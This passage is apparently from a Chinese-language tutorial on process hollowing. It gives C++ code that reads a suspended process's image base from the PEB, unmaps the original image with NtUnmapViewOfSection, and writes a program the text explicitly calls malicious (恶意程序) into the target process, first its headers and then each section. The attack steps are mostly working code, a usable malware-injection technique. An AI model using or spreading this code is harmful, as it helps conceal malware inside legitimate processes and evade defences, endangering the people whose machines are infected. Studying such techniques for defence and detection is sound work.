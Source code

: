 ```cpp
//获取挂起进程的上下文
GetThreadContext(pi.hThread, &ctx); 
  
//获取可执行映像的基址
#ifdef _WIN64
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
    // 从rbx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#endif
    // 从ebx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#ifdef _X86_
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL);
#endif
```



### 4.卸载挂起进程的内存

如果挂起进程的映像基址和恶意程序的映像基址相同，则调用NtUnmapViewOfSection卸载原始进程映像

```cpp
//判断文件预期加载地址是否被占用
pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection");
if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase)
{
    NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); //卸载已存在文件
}
```



### 5.将恶意程序内容写入目标进程

先将恶意程序的头部信息写入目标进程，随后逐节将恶意程序的各个节写入

```cpp
//为可执行映像分配内存,并写入文件头
RemoteProcessMemory = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(pi.hProcess, RemoteProcessMemory, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL);

//逐段写入
for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
{
pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)RemoteProcessMemory + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL);
}
```

